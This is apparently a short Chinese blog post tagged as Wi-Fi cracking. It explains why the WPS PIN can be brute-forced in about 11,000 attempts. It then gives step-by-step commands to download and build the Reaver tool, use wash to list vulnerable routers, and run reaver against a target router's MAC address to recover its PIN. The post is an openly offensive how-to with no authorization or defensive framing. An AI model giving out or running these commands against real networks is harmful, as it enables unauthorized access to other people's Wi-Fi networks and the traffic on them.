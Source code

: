 ```yaml
---
layout: post
category: hacker
title: PIN码破解
tagline: by 赵宏阳
tags: [wifi破解]
---
```


<!--more-->

# PIN码破解 #

为了方便用户连接wifi，Wi-Fi联盟出台了一个解决方案Wi-Fi Protectd Setup，简称WPS，但是这个方法有个安全漏洞。本文用Linux的Reaver软件使用穷举法破解PIN码。PIN码共8位十进制数，分为前四位，后三位和最后一位，其中最后一位为校验位，可以根据前面几位计算出来。所以穷举的次数为：10^4+10^3 = 11000。PIN码破解需要在信号强度很强的地方进行，强度负号后面数字大表示信号弱,数字小表示信号强。

1. 下载源码`wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz`
2. 安装依赖库`apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev`
3. 编译安装

~~~
cd  src

./configure

make

make install
~~~

1. wash -i mon0 -C      								//查看支持PIN码破解的无线路由 
2. reaver -i mon0 -b 路由MAC地址 -S -a -p 路由PIN码 -vv //开始PIN破解

